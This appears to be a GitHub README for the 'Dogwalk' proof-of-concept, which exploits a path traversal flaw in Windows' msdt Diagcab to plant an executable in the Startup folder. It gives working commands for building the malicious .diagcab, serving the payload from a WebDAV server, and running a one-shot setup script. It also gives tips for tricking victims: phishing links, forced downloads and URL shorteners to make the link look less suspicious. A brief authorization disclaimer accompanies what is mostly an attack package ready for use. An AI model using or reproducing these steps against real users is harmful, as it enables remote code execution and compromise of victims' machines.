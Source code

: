 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC allows to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div>

* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)
* [📺 Show Me](#%EF%B8%8F-wait-and-see)

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.<br>
You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)<br>
The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!




## How it works?

The Proof-of-Concept sets up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user starts the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

<sup>*(💡 use `Content-type: application/octet-stream` response header to make the Browser automaticaly downloading the file when browsing the url)*</sup>

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)*** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

If you are too lazy (or in a hurry) to proceed step-by-steps:
```shell
./hurry-dogwalk.sh [WEBDAV_URL]         # need docker
# Stop the server
./hurry-dogwalk.sh --clean
```

Otherwise ↓↓

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

Finally, move it in the `./webdav/diagcab-webdav-poc/config` directory

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` directory... <sup>*(Here we use the classic `calc.exe`)*</sup>

...And launch the server:
```
cd ./webdav/diagcab-webdav-poc/
perl diagcab-webdav-poc.pl
```

The malicious `.diagcab` is available at `https://[WEBDAV_URL]/config/hotfix895214.diagcab`. You now have to lure a victim to click on this link.

<sup>*(💡you can use URL shortener to make it appears less suspicious)*</sup>

### 👁️ Wait and see

<details>
<summary><b>Dogwalk set up</b></summary>
<div align=center>
<img src=https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_setup.gif>
</div>
</details>

🐾🐾

![demo](https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_exploit.gif)

